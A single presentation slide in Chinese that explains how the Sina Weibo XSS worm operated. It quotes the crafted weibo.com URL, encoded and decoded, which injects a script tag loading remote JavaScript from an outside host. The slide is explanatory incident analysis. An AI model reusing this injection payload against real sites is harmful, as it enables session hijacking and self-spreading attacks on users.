

# 病毒运行原理
1.利用了新浪微博存在的XSS漏洞，先使自己的微博“中毒”，在浏览器中加载如下地址即可：
http://weibo.com/pub/star/g/xyyyd%22%3E%3Cscript%20src=//www.2kt.cn/images/t.js%3E%3C/script%3E?type=update
即
http://weibo.com/pub/star/g/xyyyd"><script src=//www.2kt.cn/images/t.js></script>?type=update